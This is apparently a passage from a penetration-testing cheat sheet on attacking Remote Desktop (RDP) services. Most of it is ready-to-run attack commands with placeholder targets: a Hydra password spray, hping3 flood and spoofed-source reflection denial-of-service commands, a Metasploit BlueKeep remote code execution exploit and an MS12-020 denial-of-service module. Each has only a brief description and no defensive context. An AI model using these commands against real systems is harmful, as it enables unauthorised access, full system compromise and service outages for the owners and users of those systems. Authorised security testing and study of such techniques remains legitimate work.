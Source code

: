 ### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra rdp://<target_ip> -s 3389 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.

## Denial of Service

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

## Exploits 

### BlueKeep (CVE-2019-0708)
- **Tool:** [[Metasploit]]
    ```bash
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set RHOSTS <target_ip>
    run
    ```
- **Description:** A critical vulnerability in RDP that allows for remote code execution on vulnerable systems, potentially leading to a full system compromise.

### Terminal Server DOS (CVE-2012-0002)
- **Tool:** [[Metasploit]]
    ```bash
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    set RHOST <target_ip>
    run
    ```
- **Description:** Causes a denial of service on the target RDP server by exploiting a flaw in the handling of the channel IDs.

# Resources
